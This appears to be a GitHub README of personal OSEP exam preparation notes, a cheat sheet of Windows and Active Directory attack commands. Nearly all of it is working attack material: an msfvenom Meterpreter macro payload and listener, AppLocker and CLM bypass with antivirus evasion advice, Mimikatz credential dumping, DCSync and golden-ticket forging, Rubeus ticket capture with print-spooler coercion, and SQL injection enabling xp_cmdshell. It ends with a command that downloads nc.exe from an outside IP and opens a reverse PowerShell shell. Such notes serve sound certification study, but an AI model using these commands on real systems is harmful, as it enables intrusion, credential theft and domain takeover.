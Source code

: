# OSEP-Prep-Notes
OSEP Prep Notes



# Kali File Transfer Server

python -m uploadserver 8000

# RDP with xFreeRDP

xfreerdp /u:USERNAME /p:PASSWORD /w:1366 /h:768 /v:SERVER_IP

# VBA Application Script

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.xx.xx LPORT=443 EXITFUNC=thread -f vbapplication

# Listen With Meterpreter

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST OUR_KALI_IP
set LHOST 443
set EXITFUNC thread
run
```

# Post Exploitation - Migrate To Another Process

```
ps
> find a suitable process (like notepad.exe etc.)

execute -H -f notepad
> or execute any process.

migrate PID_OF_PROCESS
> the migration is success.

run post/windows/manage/migrate
> You should try this too.

getpid
> check current pid
```

# Post Exploitation - Find Readable and Writable Folders
This program is blocked by group policy. For more information, contact your system administrator.
```
accesschk.exe "PWNED_USERNAME" C:\Windows -wus
> Find a RW folder and use the folder for AppLocker Bypass.

or in "powershell -ep bypass"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

# Post Exploitation - Find Executable in Folders:
```
icacls C:\Windows\Tasks
> Find a folder that you have the RX permission.
```

# Post Exploitation - Bypass CLM and AppLocker:
```
> Compile Bypass_CLM_And_AppLocker_Dynamically.cs and get the exe. Upload the exe to the machine. Maybe you should encrypt for Antivirus Evasion.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U bu.exe
> Run with suitable installutil.exe to bypass.
```

# Get LAPS Computers, User Passwords - LAPSToolkit.ps1
```
> Get-LAPSComputers with LAPSToolkit.ps1 shows LAPS Computers and passwords if there is any readable.
Get-LAPSComputers
```

# AD - Mimikatz Tickets
```
mimikatz64.exe

privilege::debug // as always :D

sekurlsa::logonpasswords // if there is a password

sekurlsa::tickets //Get tickets readable.
sekurlsa::tickets /export //export tickets readable as Kirbi file.

kerberos::ptt [0;..]-2-0-..-SERVER@USER-DOMAIN.kirbi //pass the ticket in the kirbi file.

lsadump::dcsync /domain:infinity.com /user:infinity\krbtgt // DC SYNC

kerberos::golden /user:h4x /domain:infinity.com /sid:S-1-5-21-3616753307-3538385277-467097740 /krbtgt:120f9d6c433ec5b065fee44cf0f89354 /ptt //create_a_admin_user with golder krbtgt hash.
> After golden ptt is success, you can check with dir \\dc03.domain.com\c$
> If you can list dir,  use PsExec64.exe \\dc03.domain.com cmd and it will generate a shell.

```

# AD - Listen With Rubeus
```
Rubeus.exe monitor /interval:5 /filteruser:DC03$ //listen every 5 seconds for new TGTs for the user.
> If any TGT captured, it prints the base64 value of the ticket.

Rubeus.exe ptt /ticket:BASE64_TICKET // You can import the ticket with Rubeus again.
> You can dcsync after ptt and get the ntlm hash.
```

# AD - PrintSpooler
```
> While monitoring with Rubeus, you can force tickets to come.
SpoolSample.exe DC03 WEB05
> SpoopSample.exe TARGET CAPTURE // You should monitor with Rubeus in the Capture server.

```

# PsExec

```
PsExec64.exe \\dc.domain.com cmd

```

# Bloodhound - Init
```
neo4j console
> Open bloodhound app in Kali after the neo4j started.
>localhost:7474 neo4j:neo4j

```

# MSSQL - xp_cmdshell
```
123' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1-- -
123' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
123' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1-- -
123' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
123' UNION SELECT 1,2,3,4,5; EXEC xp_cmdshell 'ping 192.168.xx.xx'-- -
```
# MSSQL - sqsh and linked sql servers.
```
sqsh -S IP -U username -P password -D dbname
> Connect

EXEC sp_linkedservers;
go
> List linked servers.

select version from openquery("SQL27", 'select @@version as version')
go
> Find version of a linked server.

EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT SQL27;
go
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT SQL27;
go
EXEC ('reconfigure;') AT SQL27;
go
> Allow xp_cmdshell on a linked server remotely.

EXEC ('xp_cmdshell "curl http://192.168.45.172/nc.exe -o nc.exe ; nc.exe -e powershell 192.168.45.172 4444";') AT SQL27;
> Download nc for reverse shell on a linked server.

EXEC ('xp_cmdshell "nc.exe -e powershell 192.168.45.172 4444";') AT SQL27;
> Get a reverse shell after download. Don't forget to listen the port.
```
